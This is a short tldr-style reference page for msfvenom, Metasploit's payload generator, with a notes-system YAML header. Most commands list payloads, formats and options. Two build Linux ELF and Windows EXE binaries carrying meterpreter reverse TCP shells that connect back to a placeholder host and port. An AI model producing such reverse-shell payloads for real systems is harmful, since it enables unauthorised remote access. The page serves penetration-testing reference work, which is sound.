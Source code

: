 ```yaml
---
id: common.msfvenom
title: Msfvenom
desc: ''
updated: 1642441815049
created: 1642441815049
stub: false
isDir: false
gitNotePath: 'pages/{{ noteHiearchy }}.md'
sources:
  - name: tldr-pages
    url: 'https://github.com/tldr-pages/tldr/blob/master/LICENSE.md'
    license: Creative Commons
---
```

# msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an ELF binary with a reverse TCP handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > {{path/to/binary}}`

- Create an EXE binary with a reverse TCP handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > {{path/to/binary.exe}}`

